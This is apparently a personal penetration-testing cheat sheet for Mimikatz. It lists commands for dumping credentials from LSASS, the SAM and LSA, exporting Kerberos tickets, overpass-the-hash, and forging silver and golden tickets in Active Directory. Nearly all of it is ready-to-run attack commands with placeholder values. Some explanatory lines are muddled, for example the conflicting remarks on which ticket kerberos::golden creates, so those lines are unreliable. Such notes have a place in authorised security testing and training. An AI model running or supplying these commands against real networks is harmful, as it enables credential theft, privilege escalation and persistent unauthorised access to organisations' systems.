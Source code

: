 # Mimikatz
Used in Post Privilege Esculation in maintaining [[Persistence]] through credential harvesting and [[Active-Directory-Lateral-Movement]]

```powershell
privilege::debugv # enables the _SeDebugPrivilge_ access right
token::elevate # elevate the security token Administrator -> SYSTEM
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

### lsadumping

```powershell
privilege::debug
lsadump::lsa /patch
lsadump::sam # Dump SAM database
```

## Kerberos Attacks
Used in [[Attacking-Kerberos]] see the detailed mechanics of Kerberos and [[Active-Directory-Kerberos-Defined]]. It is credential base so understanding [[Active-Directory-Authenication]] in part for  [[Active-Directory-Privilege-Escalation]] and [[Active-Directory-Lateral-Movement]] as it is capable of command execution.

### Kerberos Tickets
```powershell
kerberos::list /export
```

### Overpass the Hash Attacks
```powershell
sekurlsa::logonpasswords # Or another NTLM obtaining method
sekurlsa::pth /user:$admin /domain:$domain.com /ntlm:$NThash /run:Powershell.exe
```

### Silver Ticket Attacks
Don't be confused `kerberos::golden` is for Silver Ticket Attacks, see Golden Ticket Attacks. Requires:# Username, Domainame, SID of Domain defined by all except the ultimate `-0000`, Service to target, Service type(eg. HTTP), password hahsh of the Service Account. Creating a service ticket for the SPN HTTP/WebServer.Domain.com with this technique from perspective of application the current user will be built-in local administrator and Domain Admin group member.
```powershell
kerberos::purge
kerberos::list

kerberos::golden /user:$user /domain:$domain.com /sid:$SID-minus-exception /target:$TargetServer.$domain.com /service:$servicetype /rc4:$passwordhash-of-spn /ptt # /ptt means injected directly into memory
```

### Golden Ticket Attacks 
Don't be confused `kerberos::golden` is for Silver Ticket Attacks
```powershell
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

Provide values for: `kerberos::golden /user: /domain: /sid: /krbtgt: /id`,
like: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-SID /krbtgt:HASH /id:ID`,then  open command prompt with elevated privileges `misc::cmd`.

